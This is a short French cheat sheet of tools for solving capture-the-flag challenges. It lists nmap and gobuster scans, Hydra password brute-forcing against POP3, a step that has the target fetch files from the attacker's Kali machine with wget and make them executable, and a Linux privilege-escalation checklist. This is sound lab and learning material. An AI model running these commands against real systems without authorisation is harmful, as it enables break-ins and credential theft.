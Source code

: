 ```yaml
---
description: Outils utilisés dans la résolution des challenges.
---
```


# Outils

## nmap

```shell-session
nmap $IP -A -p- -oN nmap.txt -T4
```

## gobuster

```shell-session
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x ".php,.html,.txt" -u $IP -t50
```

## Hydra

```
hydra -l <user>  -P /usr/share/wordlists/rockyou.txt pop3://$IP -s <port> -t 64
```

```
hydra -l <user>  -P /usr/share/wordlists/fasttrack.txt pop3://$IP -s <port> -t 64 
```

## Transfert de fichiers

Pour transférer des fichiers depuis la machine Kali vers la machine cible:

1. sur la machine Kali
   1. aller dans le répertoire contenant les fichiers à transférer
   2. `python3 -m http.server`
2. sur la machine cible
   1. aller dans le répertoire /dev/shm
   2. `wget < kali tun0 IP>:8000/fichier.à.transférer`
   3. rendre les fichiers exécutables avec `chmod +x`

## Privilege Escalation

Voici la méthode générique que j'utilise pour trouver les possibilités de 'privilege escalation'. Cette méthode est en partie basée sur l'article Linux [Privilege Escalation: Automated Script](https://www.hackingarticles.in/linux-privilege-escalation-automated-script/).

1. sudo -l
2. [suid3num.py](https://github.com/Anon-Exploiter/SUID3NUM/tree/master)
3. [les.sh](https://github.com/The-Z-Labs/linux-exploit-suggester)
4. [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
